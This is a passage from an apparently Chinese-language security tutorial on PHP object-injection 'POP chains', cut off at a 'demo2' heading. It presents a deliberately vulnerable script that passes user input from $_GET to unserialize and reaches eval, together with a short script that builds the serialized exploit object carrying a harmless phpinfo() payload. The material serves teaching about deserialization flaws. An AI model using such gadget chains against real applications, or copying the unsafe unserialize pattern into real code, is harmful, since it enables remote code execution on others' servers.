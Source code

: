 ### 3.POP链利用

一般的序列化攻击都在PHP魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

```php
<?php
class lemon {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new normal();
    }

    function __destruct() {
        $this->ClassObj->action();
    }
}

class normal {
    function action() {
        echo "hello";
    }
}

class evil {
    private $data;
    function action() {
        eval($this->data);
    }
}
unserialize($_GET['d']);
```

lemon类调用normal类，且normal和evil类都有action方法，可以构造pop链调用evil中的action方法：

```php
<?php
class lemon {
    protected $ClassObj;
    function __construct() {
        $this->ClassObj = new evil();
    }
}
class evil {
    private $data = "phpinfo();";
}
echo urlencode(serialize(new lemon()));
```

这里还是要借助`__construct`方法，不能使用`protected $ClassObj = new evil();`

demo2:
